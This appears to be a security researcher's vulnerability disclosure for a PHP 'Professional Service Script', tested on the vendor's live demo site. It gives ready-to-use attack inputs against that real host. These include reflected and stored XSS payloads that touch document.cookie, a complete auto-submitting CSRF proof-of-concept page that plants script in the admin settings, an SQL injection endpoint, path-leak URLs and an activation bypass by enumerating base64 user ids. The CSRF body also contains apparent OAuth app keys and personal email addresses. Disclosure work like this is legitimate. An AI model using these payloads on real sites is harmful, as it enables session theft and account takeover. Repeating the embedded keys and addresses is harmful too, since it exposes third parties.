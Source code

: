 ### Professional Service Script- the lastest version - SQL Injection/Stored-XSS/Reflect-XSS/Arbitrary-Binding/CSRF/Sensitive-Data-Leak[2]

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://ordermanagementscript.com/demo/professional-service/admin/bannerview.php?view=27%27%22%3E666%3Cimg%20src=x%20onerror=console.log(document.cookie)%3E666%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss2.png)


##### Stored-XSS


```
http://ordermanagementscript.com/demo/professional-service/admin/general_settingupd.php
```

POST parameters:

```
------WebKitFormBoundary2ZjWQDBIsgNhKq3e
Content-Disposition: form-data; name="website_title"

Professional Service'"><svg/onload=alert(123)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/xss1.png)


#### SQL Injection:

##### sqli1
```
http://ordermanagementscript.com/demo/professional-service/admin/review.php?id=70
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/sqli.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/ordermanagementscript.com\/demo\/professional-service\/admin\/general_settingupd.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2ZjWQDBIsgNhKq3e");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_title\"\r\n" + 
          "\r\n" + 
          "Professional Service\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_keyword\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eProfessional Service\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"website_url\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"commonword\"\r\n" + 
          "\r\n" + 
          "Professional\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_add\"\r\n" + 
          "\r\n" + 
          "\x3cp\x3eCompanyName,\x3c/p\x3e\r\n" + 
          "\x3cp\x3ecompany address,\x3c/p\x3e\r\n" + 
          "\x3cp\x3eLocation.\x3c/p\x3e\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"admin_email\"\r\n" + 
          "\r\n" + 
          "vsjayan@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"paypal_email\"\r\n" + 
          "\r\n" + 
          "inet.prabhu1716@gmail.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"currency\"\r\n" + 
          "\r\n" + 
          "USD\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fb_url\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"tw_url\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"linkedinurl\"\r\n" + 
          "\r\n" + 
          "https://in.linkedin.com/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gplusurl\"\r\n" + 
          "\r\n" + 
          "https://plus.google.com/explore\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"Img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"banner_img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbappid\"\r\n" + 
          "\r\n" + 
          "320789545076739\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbkey\"\r\n" + 
          "\r\n" + 
          "0e0e841f7583ea866e11839f599c0ffc\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"fbreurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/fblog_new/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gappid\"\r\n" + 
          "\r\n" + 
          "966064226677-t3jl59r6llcg54dou9lro2kak0pf5n4c.apps.googleusercontent.com\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"gkey\"\r\n" + 
          "\r\n" + 
          "rSiRaC22JZqyv9xUWJjoXZjV\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"greurl\"\r\n" + 
          "\r\n" + 
          "http://ordermanagementscript.com/demo/professional-service/google_plus/\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e\r\n" + 
          "Content-Disposition: form-data; name=\"g_submit\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2ZjWQDBIsgNhKq3e--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the user panel.

#### Sensitive-Data-Leak

For example, we can get sensitive info like absolute-path here.
##### Leak1

```
http://ordermanagementscript.com/demo/professional-service/admin/review_userwise.php?id=72%27S
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak1.png)
##### Leak2

```
http://ordermanagementscript.com/demo/professional-service/service-list/category/22/house-cleaning
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/info_leak2.png)

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=NTA=
```
After Base64 decode:
```
http://ordermanagementscript.com/demo/professional-service/login/?uid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding2.png)

So it's easy to predict or enum the uid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Professional-Service-Script/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.